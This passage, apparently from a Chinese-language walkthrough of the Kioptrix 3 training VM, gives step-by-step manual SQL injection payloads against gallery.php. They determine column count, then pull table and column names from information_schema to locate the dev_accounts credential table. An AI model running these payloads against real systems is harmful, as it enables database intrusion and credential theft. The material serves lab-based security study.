 ### 手工注入

#### 判断注入类型

payload=`http://kioptrix3.com/gallery/gallery.php?id=1 and 1=2`，发现无报错，但是在1后门加什么都是报错，估计是数字型

#### 确定回显位

payload=`http://kioptrix3.com/gallery/gallery.php?id=1 order by 6--+`等于7报错，说明有6个回显位

payoad=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,2,3,4,5,6--+`，可以看出是2，3有回显

![image-20240630151048692](image/image-20240630151048692.png)

#### 爆表名

payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='gallery'),database(),4,5,6--+`逐个查看表名发现dev_accounts，gallarific_users是账号表

![image-20240630150407114](image/image-20240630150407114.png)

#### 爆列名

dev_accounts表的列名payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts'),database(),4,5,6--+`发现username,password比较重要

![image-20240630153338898](image/image-20240630153338898.png)
